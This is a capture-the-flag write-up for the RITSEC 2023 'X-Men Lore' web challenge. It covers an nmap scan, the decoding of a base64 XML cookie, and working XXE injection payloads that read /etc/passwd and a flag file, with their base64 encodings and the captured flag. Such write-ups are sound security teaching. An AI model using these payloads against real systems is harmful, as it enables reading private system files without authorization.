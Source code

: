 ```yaml
---
title: "[RITSEC 2023] - X-Men Lore"
date: 2023-04-01
author: me
categories: [writeups]
tags: ["Web", "RITSEC"]
toc: true
comments: false
mermaid: false
math: false
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>


*The 90's X-Men Animated Series is better than the movies. Change my mind.*

[https://xmen-lore-web.challenges.ctf.ritsec.club/](https://xmen-lore-web.challenges.ctf.ritsec.club/)


_____________________________________________________



### Nmap

```
┌──(teiiko㉿kali)-[~/Bureau/RITSEC]
└─$ nmap -sV xmen-lore-web.challenges.ctf.ritsec.club
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-01 12:37 CEST
Nmap scan report for xmen-lore-web.challenges.ctf.ritsec.club (34.111.96.219)
Host is up (0.016s latency).
rDNS record for 34.111.96.219: 219.96.111.34.bc.googleusercontent.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE   VERSION
80/tcp  open  http      gunicorn
443/tcp open  ssl/https gunicorn
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/

Service detection performed. Please report any incorrect resultsorg/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.59 seconds

```
### Web app

By reaching the website, we arrive on a main page that allows us to choose an X-Men character. 

![first](/images/x-men/x-men-main.png)

So let's pick one of them.

![first](/images/x-men/x-men-main-2.png)

There is nothing interesting either in the page or in the source code, so i looked for cookies and found something interesting:

![first](/images/x-men/x-men-main-3.png)

Indeed, everytime we choose a charactere, a new cookie is set up:

![first](/images/x-men/x-men-main-4.png)

It looks like a base64-encoded string, so lets try to decode it.

```bash
teiiko@LAPTOP-1H1P71UP:~$ echo PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+V29sdmVyaW5lPC94bWVuPjwvaW5wdXQ+ | base64 -d
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Wolverine</xmen></input>
teiiko@LAPTOP-1H1P71UP:~$
```

Now, we understand we have to try for an XML eXternal Entity (XXE) Injection.

### Exploit

Firstly, I tried to read an existing file, like `/etc/passwd`.

So, I performed this payload...

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

...wich gives us in base64 the following string:

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPl0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+Cg==
```

Then, i replaced my cookie and refreshed the page.

![first](/images/x-men/x-men-main-6.png)

And we sucessfully get then content of `/etc/passwd` file !

### Flag

Here comes the most difficult part (a little bit too guessy imo), we have to find a file containing the flag. I tried a lot of things like log files, user specific files, linux default files.. but none gave me the flag or interesting data. So, after being stucked for an hour, I looked for more obvious files that we conventionally find in CTF (like `flag`, `flag.txt`, `/passwd`...).

So, I firstly tried to read a potential `flag` file and it worked... !

![first](/images/x-men/x-men-flag.png)

> 🚩 `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`

**Final payload:**

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://./flag">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

**Base64-encoded string**

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vLi9mbGFnIj5dPjxpbnB1dD48eG1lbj4meHhlOzwveG1lbj48L2lucHV0Pgo=
```